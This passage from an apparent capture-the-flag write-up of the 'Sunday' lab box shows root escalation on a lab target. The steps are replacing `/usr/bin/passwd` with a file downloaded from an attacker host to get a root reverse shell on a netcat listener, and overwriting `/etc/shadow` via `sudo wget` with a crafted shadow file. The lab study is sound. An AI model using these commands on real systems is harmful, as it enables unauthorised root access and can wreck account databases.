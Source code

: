     02:09:34 (69.91 KB/s) - `/usr/bin/passwd' saved [246/246]
    
    sammy@sunday:~$ passwd
    
    
    
    root@kali# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 41346
    # id
    uid=101(sammy) gid=10(staff) euid=0(root) egid=3(sys) groups=10(staff)
    

#### Overwrite shadow

Overwriting `/etc/passwd` and/or `/etc/shadow` seemed to be the most common
attempt to root this box, and it ended up with a lot of people screwing up the
box and making it unusable. In fact, it led to people trying to do the finger
enumeration in the initial stage and getting nothing back because the user
list was jacked up.

In general, there are just better ways to do this. That said, if you want to
go this route, here’s one way how.

Since we already have the shadow backup file, we’ll use that. It doesn’t have
a root entry at the top, but let’s add one:

    
    
    root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    mysql:NP:::::::
    openldap:*LK*:::::::
    webservd:*LK*:::::::
    postgres:NP:::::::
    svctag:*LK*:6445::::::
    nobody:*LK*:6445::::::
    noaccess:*LK*:6445::::::
    nobody4:*LK*:6445::::::
    sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
    sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
    

In this case, I’ve made the root entry the same as sunny, other than the
username.

Then get it with wget, and then su and give it password “sunday”:

    
    
    sammy@sunday:~$ sudo wget -O /etc/shadow http://10.10.14.5/shadow
    --02:00:10--  http://10.10.14.5/shadow
               => `/etc/shadow'
    Connecting to 10.10.14.5:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 392 [application/octet-stream]
    
    100%[==========================================================================================================================================================================================================>] 392           --.--K/s
    
